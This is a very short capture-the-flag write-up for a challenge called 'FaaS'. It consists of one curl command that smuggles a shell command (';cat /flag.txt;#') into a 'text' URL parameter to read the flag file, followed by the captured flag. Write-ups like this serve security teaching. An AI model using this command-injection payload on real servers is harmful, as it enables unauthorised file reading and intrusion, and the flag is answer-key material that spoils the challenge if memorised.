# FaaS

## Write-up (short)

```bash
curl -v 'http://faas.web.shellmates.club/?text=;cat%20%2Fflag.txt;%23'
```

## Flag

`shellmates{c0Mm4nd_INjeCtI0n_fTW}`
